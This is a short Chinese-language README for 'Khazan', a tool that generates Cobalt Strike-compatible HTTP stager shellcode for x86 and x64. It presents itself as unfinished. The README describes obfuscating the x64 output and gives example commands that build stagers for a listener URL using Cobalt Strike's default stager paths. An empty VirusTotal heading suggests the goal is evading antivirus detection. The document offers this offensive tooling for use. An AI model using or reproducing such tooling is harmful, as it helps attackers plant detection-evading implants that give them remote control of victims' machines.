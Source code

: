 # Khazan

## 1. 简介

一个 CS shellcode 生成器，用于生成适配 CS 的 shellcode，半成品。

## 2. 主要功能

【*】支持 http 协议的 shellcode

【*】支持 x64/x86种架构

【*】x64 架构下会对 shellcode 进行混淆

## 3. 使用说明

参数：

```
-a string
	选择生成 shellcode 的架构（x86/x64）
-u string
	指定监听的 url
```

生成 64位 shellcode：

```
Khazan.exe -a x64 -u http://127.0.0.1/FMsW
	/FMsW 为CS默认的64位stager请求路径，如果使用profile文件需要修改该路径
```

生成 32位 shellcode：

```
Khazan.exe -a x86 -u http://127.0.0.1/yn4A
	/yn4A 为CS默认的32位stager请求路径，如果使用profile文件需要修改该路径
```

## 4. VT

64 位 shellcode：



